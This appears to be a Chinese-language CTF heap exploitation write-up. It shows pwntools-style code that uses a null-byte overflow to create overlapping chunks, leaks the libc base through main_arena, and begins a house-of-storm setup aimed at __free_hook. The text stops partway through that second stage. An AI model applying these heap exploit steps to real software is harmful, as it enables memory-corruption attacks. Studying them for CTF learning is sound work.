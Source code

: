 #### leak libc

通过`posion by null`来构造重叠的`chunk`来泄漏放在unsorted bin 中的`chunk`，从而得到`libc`。

```python
#libc base
add(0x500)  #0
add(0x88)   #1
add(0x88)   #2

delete(0)
add(0x18)   #0
edit(0,"A"*0x18)	#overflow by null
add(0x88)   #3
add(0x88)   #4 
delete(3)
delete(1)
```

这样我们就把`idx4`放进了unsorted bin 中，它与`idx1 idx3`重叠了。

```python
add(0x2d8)  #1  back of idx0 in unsorted bin
add(0x88)   #3  == old idx3
add(0x48)   #5  == old idx4
delete(4)
view(5)
base = u64(p.readline()[:-1].ljust(8,'\x00')) - 88 - 0x3c4b20
libc.address = base
log.warning(hex(base))
```

首先我们把unsorted bin中首先加入的`0x500`的剩余部分申请掉。

然后再次申请就能得到`idx4`部分的内存，即`idx 5`。

然后`free(idx4)`。就可以泄漏到`main_arena`，从而拿到`libc`。

⚠️这里操作结束后要把unsorted bin中的内存清掉：

`add(0x458 + 0x90) #4 == 0x510 + 0x90 - 0x20 - 0x90`

#### get __free_hook

通过house of storm来申请任意空间：

```python
add(0x500)  #6
add(0x88)   #7
add(0x88)   #8
delete(6)
add(0x18)   #6
edit(6,"A"*0x18)
add(0x88)   #9
add(0x88)   #10
delete(9)
delete(7)
add(0x2d8)  #7 trash
add(0x78)   #9 == old idx 9
add(0x48)   #11 == idx10 - 0x10
add(0x4a9)  #12 unsorted bin to large bin
```
